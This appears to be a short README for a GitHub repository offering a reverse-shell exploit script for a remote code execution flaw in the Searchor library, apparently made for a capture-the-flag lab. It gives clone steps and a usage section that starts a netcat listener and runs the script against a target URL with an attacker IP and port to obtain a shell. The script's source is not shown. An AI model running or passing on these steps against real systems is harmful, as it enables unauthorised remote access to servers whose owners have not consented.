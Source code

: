 # Basic usage

## Installation

```bash
git clone https://github.com/874anthony/searchor-rce-script.git
cd searchor-rce-script
chmod +x searchor-rce.sh
```

## Usage

```bash
nc -lvnp 2566 (In another terminal)
./searchor-rce.sh -u http://example.com -h 10.10.14.176 -p 2566
```

## Credits

This script was based on this [issue](https://github.com/ArjunSharda/Searchor/pull/130)
